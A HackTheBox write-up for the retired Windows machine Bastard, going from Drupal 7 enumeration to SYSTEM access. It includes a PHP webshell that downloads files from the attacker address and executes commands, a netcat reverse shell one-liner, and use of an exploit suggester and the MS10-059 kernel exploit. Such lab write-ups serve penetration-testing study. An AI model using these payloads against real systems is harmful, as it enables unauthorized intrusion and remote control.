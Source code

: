 ```yaml
---
title: "HackTheBox | Bastard"
layout: post
date: 2023-08-16 12:00
tag: 
- HackTheBox
- Pentesting
- Bastard
- Windows
- Medium
- perl_startup
- SUID
- NFS
image: https://labs.hackthebox.com/storage/avatars/a8d2ae87fbe6d1ccfe93522d74defb3a.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

Bastard is a medium Windows HackTheBox machine Bastard that requires some knowledge of PHP in order to modify and use the proof of concept required for initial entry. This machine demonstrates the potential severity of vulnerabilities in content management systems.

---

# Nmap

```bash
nmap -A -T4 10.10.10.9         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-13 10:25 +01
Nmap scan report for 10.10.10.9
Host is up (0.14s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As always let's start checking the port 80 :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113104429.png>)

Heem, this web app is running Drupal 7 :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113124019.png>)

The `changelog.txt` file shows us the exacte version :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113105449.png>)

[https://www.exploit-db.com/exploits/41564](https://www.exploit-db.com/exploits/41564)

As specified in the exploit above, I checked the `/rest_endpoint` but it says not found! 

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113110750.png>)

Then I checked just the `/rest` and it does exist :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113110800.png>)

Running the exploit triggers an error, so I needed to install the php-curl :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113111207.png>)

```bash
sudo apt-get install php-curl
```

[https://gist.github.com/devzspy/a85856e6f17eeefb328b2c37810db6f6](https://gist.github.com/devzspy/a85856e6f17eeefb328b2c37810db6f6)

And I used the php shell above to upload a webshell :

```php
$phpCode = <<<'EOD'
<?php 
if (isset($_REQUEST['fupload'])) { 
	file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.24/" . $_REQUEST['fupload'])); 
}; 
if (isset($_REQUEST['fexec'])) { 
	echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>"; 
}; 
?>
EOD;
```

Also I adjusted the exploit to make it work for me :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120208.png>)

And the webshell is uploaded successfully :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113111802.png>)

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120127.png>)

Let's get a reverse shell on my machine :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120427.png>)

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120603.png>)

```bash
nc.exe -e cmd.exe 10.10.14.24 9999
```

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120522.png>)

And now I am in as iusr user :

# User flag

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120505.png>)

I can read the user flag easily :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120728.png>)

# PE

Checking the `whoami /priv` we see that SeImpersonatePrivilege is Enabled, so I thought about the JuicyPotato! 

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113120903.png>)

But unfortunately it didn't work!

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123731.png>)

So I run the exploit suggester :

```bash
python2 windows-exploit-suggester.py --database 2024-01-12-mssb.xls --systeminfo systeminfo.txt
```

And it is our friend MS10-059 again!

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123510.png>)

[https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123651.png>)

Running the exploit gives us a SYSTEM shell :

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123437.png>)

And now we can read the root flag !

![alt text](<../../../assets/images/HTBPics/Pasted image 20240113123611.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>